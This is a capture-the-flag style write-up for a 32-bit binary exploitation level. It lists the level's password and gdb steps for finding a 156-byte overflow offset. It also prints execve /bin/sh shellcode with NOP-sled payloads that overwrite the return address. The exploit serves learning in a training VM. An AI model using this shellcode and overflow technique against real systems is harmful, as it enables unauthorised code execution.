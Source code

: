# Level04 - 32 bits -

## Local script usage

Requirements:

- `gdb-peda`
- `getenv32`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level04/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level04 | `kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf` |
| level05 | ``                                         |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

```shell
pattern create 200 input
run < <(cat /tmp/input)
  Invalid $PC address: 0x71414154
  Stopped reason: SIGSEGV
  0x71414154 in ?? ()

pattern search
  EIP+0 found at offset: 156

python -c 'print "A" * 156 + "BBBB"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

0xffffd450 --> 0xffffd470 ('A' <repeats 156 times>, "BBBB")
x/x $esp+0x20
0xffffd470:     0x41414141

SHELLCODE="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * (156-100-23) + "\x70\xd4\xff\xff"'
> Stopped reason: SIGHUP # or SIGILL
0x08048823 in main ()
# SIGHUP before return


export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`

./getenv32 SHELLCODE ~/level04
0xffffd755
python -c 'print "A" * 156 + "\x55\xd7\xff\xff"' > /tmp/exploit04

p /x 0xffffd755 + 100
$2 = 0xffffd7b9

python -c 'print "A" * 156 + "\xb9\xd7\xff\xff"' > /tmp/exploit04
```

> PTRACE_TRACEME (http://manpagesfr.free.fr/man/man2/ptrace.2.html)

    Le processus en cours va être suivi par son père. Tout signal (sauf SIGKILL) reçu par le processus l'arrêtera, et le père sera notifié grâce à wait(2). De plus, les appels ultérieurs à execve(2) par ce processus lui enverront SIGTRAP, ce qui donne au père la possibilité de reprendre le contrôle avant que le nouveau programme continue son exécution. Un processus ne doit pas envoyer cette requête si son père n'est pas prêt à le suivre. Dans cette requête, pid, addr et data sont ignorés.

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)

### C

- [Man fork](https://linux.die.net/man/3/fork)
- [Man gets](https://linux.die.net/man/3/gets)
- [Man kill](https://linux.die.net/man/3/kill)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man prctl](https://linux.die.net/man/2/prctl)
- [Man ptrace](https://linux.die.net/man/2/ptrace)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man wait](https://linux.die.net/man/2/wait)
